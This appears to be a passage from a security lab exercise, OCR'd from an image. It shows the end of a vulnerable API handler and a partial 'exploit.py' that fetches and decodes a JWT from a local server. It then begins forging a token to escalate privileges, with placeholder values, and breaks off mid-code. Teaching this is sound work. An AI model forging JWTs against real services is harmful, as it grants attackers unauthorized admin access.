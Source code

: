 ```python
        return {"message": "Welcome admin!"}
    except JWTError:
        # Handle cases where the token decode fails
        raise HTTPException(status_code=401, detail="Invalid token")
```

### The Exploit Program

The exploit program used in this exercise is called `exploit.py`. This program is a script that can make requests to the vulnerable API. This will demonstrate how attackers can forge JWTs to access protected endpoints.

```python
# Save this as exploit.py

import base64
import json

import requests

# Base URL of the API server
BASE_URL = "http://127.0.0.1:8000"


# Task 1: Obtain a valid JWT
def get_valid_token(username, password):
    """Logs in with credentials and retrieves the JWT."""
    # Prepare the request data
    endpoint = "..."
    credentials = {...}

    response = requests.post(endpoint, json=credentials)

    if response.status_code == 200:
        # Retrieve the JWT token
        token = response.json().get("access_token")
        print(f"Valid JWT Token: {token}")

        # Decode the JWT token (splitting into header, payload, and signature)
        header, payload, signature = token.split(".")
        decoded_header = base64.urlsafe_b64decode(header + "==").decode()  # Decode header
        decoded_payload = base64.urlsafe_b64decode(payload + "==").decode()  # Decode payload

        # Display the decoded header and payload
        print("\nDecoded Header:")
        print(json.loads(decoded_header))
        print("\nDecoded Payload:")
        print(json.loads(decoded_payload))

        return token
    else:
        print(f"Failed to retrieve token: {response.status_code} - {response.json()}")


# Task 2: Forge a JWT to Escalate Privileges
def forge_token():
    """Creates a forged JWT."""
    # Prepare the JWT data
    header = {
        "alg": "...",
        "typ": "...",
    }
    payload = {
        "sub": "...",
```